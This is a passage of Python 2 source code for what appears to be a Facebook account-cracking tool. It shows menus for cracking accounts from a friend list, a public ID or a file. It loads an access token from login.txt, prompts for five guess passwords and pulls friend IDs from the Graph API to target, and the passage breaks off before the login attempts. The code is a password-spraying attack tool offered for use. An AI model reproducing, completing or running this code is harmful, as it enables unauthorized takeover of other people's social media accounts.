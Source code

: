 	print "-"+46*"-"
	print "[1] Clone With 5 Choice Passwords."
	print "[2] Clone With 2 Choice Passwords."
	print "[0] Back To Main Menu."
	print "                      "
	menu2_menu()
	
def menu2_menu():
    m2m = raw_input('\nChoose Option >> ')
    if m2m =="":
        print "[!] Filled Incorrectly."
        time.sleep(1)
        menu2_menu()
    elif m2m =="1":
        choice1()
    elif m2m =="2":
        choice2()
    elif m2m =="0":
        os.system('clear')
        hamza('Please Wait.')
        hamza('While Is Returning To Main Menu.')
        time.sleep(1)
        os.system('python2 Mohammad.py')
    else:
        print "[!] Wrong Input."
        menu2_menu()
        
        
def choice1():
	global toket
	os.system("clear")
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf login.txt")
		time.sleep(1)
		os.system("python2 Rayees.py")
	os.system("clear")
	print banner
	print ("[1] Crack From Friend List.")
	print ("[2] Crack From Any Public ID.")
	print ("[3] Crack From File.")
	print ("[0] Back")
	print ("        ")
	choice1_menu()

def choice1_menu():
	c1m = raw_input("\nChoose Option >> ")
	if c1m =="":
		print ("[!] Fill in correctly")
		choice_menu()
	elif c1m =="1":
		os.system("clear")
		print (banner)
		pass1=raw_input("[1] Input Password  : ")
		pass2=raw_input("[2] Input Password  : ")
		pass3=raw_input("[3] Input Password  : ")
		pass4=raw_input("[4] Input Password  : ")
		pass5=raw_input("[5] Input Password  : ")
		print (47*"-")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])